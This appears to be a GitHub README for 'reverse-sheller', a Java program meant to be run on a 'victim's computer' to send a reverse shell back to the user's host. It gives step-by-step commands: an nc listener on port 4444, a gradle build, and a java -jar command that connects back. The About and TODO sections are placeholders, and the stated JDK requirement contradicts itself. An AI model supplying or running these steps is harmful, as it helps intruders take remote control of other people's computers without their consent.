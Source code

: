 # reverse-sheller

## Build and execute this .jar on target machine with JDK11 or above to get a reverse shell from your host.

![Reverse shell terminal picture](imgs/reverse-shell-picture.jpg)

## Table of Contents

* [Usage 💡](#usage)
* [About 💁📙](#about)
* [TODO 📝](#todo)
* [Author 👷](#author)

## Usage 💡 <a name="usage"></a>

1) Open server waiting for client connection. From this terminal you will be able to execute reverse shell commands:

```bash
nc -lvnp 4444
```

2) Build `.jar` using:

```bash
./gradlew build
```

3) Grab the `.jar` from `./src/client/build/libs` and execute it on the victims computer using:

```bash
java -jar <filename.jar> 127.0.0.1 4444
```

(Requirement: JDK8 or higher needs
to be installed on victim's computer, and JAVA_HOME variable needs to be pointing to working JDK instance)

## About 💁📙 <a name="about"></a>

...
...

## TODO 📝 <a name="todo"></a>

Things that need to be done:

1) Server implementation
2) ...
3) ...
   ...

![README ending picture](imgs/readme-ending-picture.jpg)

## Author 👷 <a name="author"></a>

Drop me a line at: rojberr@outlook.com 